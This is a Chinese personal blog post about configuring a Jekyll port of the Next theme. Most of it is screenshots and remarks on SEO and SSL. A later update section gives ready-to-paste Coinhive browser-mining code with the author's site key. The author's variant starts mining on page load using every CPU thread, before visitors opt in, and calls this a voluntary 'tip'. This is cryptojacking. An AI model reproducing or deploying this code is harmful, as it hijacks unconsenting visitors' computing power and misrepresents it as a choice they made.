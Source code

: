 # 原创
：  Jekyll博客Next主题超深度配置

# Jekyll博客Next主题超深度配置

> 
文末附源码地址哦！ <br/> 注意：本文不是教程！


## 起因

这两天不知道为什么突然沉迷Hexo博客的Next主题，Next主题确实太赞了，十分清爽简洁，自身集成了许多小插件，基本上满足了大部分博客的一般需求。所以我索性把之前那个也还不错的博客 `simple` 给抛弃了。

然后呢，我就用Hexo快速搭建了Next主题的博客，但是有一个问题，它写文章不方便，而且还需要先导出 `html` 格式才能 `push` 到 `GitHub` 上面，这就不能忍了。

于是，突发奇想，能不能把 `Next` 主题改成 `Jekyll` 呢，我抱着试一试的心态去 `Jwkyll` 官网查了一下，果然，已经有大神改好了，顿时开心，不用自己动手了…（好吧，我太懒了）

最终选择[Jekyll-Next-Theme](https://github.com/Simpleyyt/jekyll-theme-next)，你可以去[这里](https://github.com/Simpleyyt/jekyll-theme-next)直接`clone` , 然后你就可以有一套和我一样的博客主题了。

## 基本功能展示

**整体面貌**： <br/> <img alt="" src="https://raw.githubusercontent.com/ds19991999/githubimg/master/picgo/20180808212432.jpg" title=""/>

**数学公式支持**： <br/> <img alt="" src="https://raw.githubusercontent.com/ds19991999/githubimg/master/picgo/20180808212436.jpg" title=""/>

**文末小功能**： <br/> <img alt="" src="https://raw.githubusercontent.com/ds19991999/githubimg/master/picgo/20180808212442.jpg" title=""/>

**评论系统**： <br/> <img alt="" src="https://raw.githubusercontent.com/ds19991999/githubimg/master/picgo/20180808212446.jpg" title=""/>

**文章加密设置**： <br/> <img alt="" src="https://raw.githubusercontent.com/ds19991999/githubimg/master/picgo/20180808212454.jpg" title=""/>

小功能实在太多，不如直接访问：[https://www.ds-vip.top](https://www.ds-vip.top) 感受一下。

## 博客搭建

关于博客搭建这一块自行 `Google` ，网上教程多如牛毛，千篇一律，再写就没意思了。不过这里推荐两篇基于Hexo的Next主题配置教程，可以参考一下。

## 博客配置完成后的坑

搭建一个博客还是很简单的，配置虽然麻烦，但一步步的还是可以实现的。博客搭建完成后，就是域名绑定，ICP备案，以及网站推广。

虽然你的博客搭建完成了，但是，也只有你本人才会去访问它，其他人通过搜索引擎根本搜不到你的网站信息，因为你的网站还没有被各大搜索引擎收录，这一块就通过我的博客里[网站收录](https://www.ds-vip.top/seo/)去实现，每天提交过几次就差不多了。

另外一个坑就是绑定自定义域名之后，你的网站就不支持 `https` 加密协议了，所以你得去买个 `SSL` 证书，一般情况下，你的域名供应商会免费送你一年的 `SSL` 证书服务，按照官方给的操作步骤一步步来就 `OK` 了。所以啊，建博客是很简单的，维护博客就不那么容易了。

---


**20180810更新**

---


## 为博客嵌入挖矿代码

先看效果图： <br/> <img alt="这里写图片描述" src="https://img-blog.csdn.net/20180816203048860?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RzMTk5OTE5OTk=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70" title=""/>
1. 安装并注册monero账号1. 注册Coinhive账号1. 在Coinhive中得到site key1. 安装代码到html中
### 样式

**官网样式：**

```
&lt;div&gt;
    &lt;script src="https://authedmine.com/lib/simple-ui.min.js" async&gt;&lt;/script&gt;
    &lt;div class="coinhive-miner" 
        style="width: 100%; height: 100px"
        data-key="YjyptNPkNzUZwQonjCLhkllZAW85Axyo"
        data-autostart="true"
        data-whitelabel="false"
        data-background="#000000"
        data-text="#eeeeee"
        data-action="#00ff00"
        data-graph="#555555"
        data-threads="7"
        data-throttle="0.1"&gt;
        &lt;em&gt;Loading...&lt;/em&gt;
    &lt;/div&gt;
&lt;/div&gt;
```

**我的样式:**

```
&lt;div&gt;
    &lt;h3 align="center"&gt;⬇⬇~ 挖 矿 打 赏 系 统 ~⬇⬇&lt;/h3&gt;
    &lt;script src="https://coinhive.com/lib/coinhive.min.js"&gt;&lt;/script&gt;
    &lt;center&gt;
        &lt;table &gt;
            &lt;tbody&gt;
            &lt;tr&gt;
                &lt;td align="center"&gt;启动线程数&lt;/td&gt;
                &lt;td align="center"&gt;当前算力(Hashs/秒)&lt;/td&gt;
                &lt;td align="center"&gt;您已贡献(Hash单位：个)&lt;/td&gt;
            &lt;/tr&gt;
            &lt;tr&gt;
                &lt;td id="tcount" align="center"&gt;0&lt;/td&gt;
                &lt;td id="hps" align="center"&gt;0&lt;/td&gt;
                &lt;td id="ths" align="center"&gt;0&lt;/td&gt;&lt;/tr&gt;
            &lt;tr&gt;&lt;td colspan="3;" id="status" align="center"&gt;您正在打赏中，随时可以停止。&lt;/td&gt;&lt;/tr&gt;
            &lt;/tbody&gt;
        &lt;/table&gt;
    &lt;/center&gt;

    &lt;div&gt;&lt;p id="minebutton" style="text-align:center;"&gt;
        &lt;button onclick="miner.start(CoinHive.FORCE_EXCLUSIVE_TAB)"&gt;停止挖矿打赏&lt;/button&gt;
    &lt;/p&gt;&lt;/div&gt;

    &lt;script type="text/javascript"&gt;
        var miner=new CoinHive.User
            ("YjyptNPkNzUZwQonjCLhkllZAW85Axyo",
            "www.ds-vip.top",
            {threads:navigator.hardwareConcurrency,autoThreads:!1,throttle:.9,forceASMJS:!1});

        miner.start(CoinHive.FORCE_EXCLUSIVE_TAB),
        setInterval(function(){var e=miner.getNumThreads(),
        n=Math.round(100*miner.getHashesPerSecond())/100,
        t=miner.getTotalHashes();miner.getAcceptedHashes()/256;

        miner.isRunning()?(document.getElementById("tcount").innerHTML=e,document.getElementById("hps").innerHTML=n,    
        document.getElementById("ths").innerHTML=t,document.getElementById("status").innerHTML="您正在打赏中，随时可以停止。",
        document.getElementById("minebutton").innerHTML='&lt;button onclick="miner.stop()"&gt;停止挖矿打赏&lt;/button&gt;'):(document.getElementById("tcount").innerHTML="0",document.getElementById("hps").innerHTML="0",document.getElementById("ths").innerHTML=t,document.getElementById("status").innerHTML="您已经停止打赏，随时可以开始。",document.getElementById("minebutton").innerHTML='&lt;button onclick="miner.start(CoinHive.FORCE_EXCLUSIVE_TAB)"&gt;开始挖矿打赏&lt;/button&gt;')},1e3)
    &lt;/script&gt;
&lt;/div&gt;
```

详见：[https://www.ds-vip.top/test/2018/08/11/test/](https://www.ds-vip.top/test/2018/08/11/test/)

## 附上源码和个人博客

> 
配置文件 [_config.yml](https://github.com/ds19991999/ds19991999.github.io/blob/master/_config.yml) 可以慢慢看，毕竟太多了，这也是我为什么不做笔记，不写教程的原因。


> 
有什么问题可以直接在我的[个人博客主页](https://www.ds-vip.top)上联系我哦，另外大家优势没事可以来：[https://www.ds-vip.top/essay/](https://www.ds-vip.top/essay/) 留言。

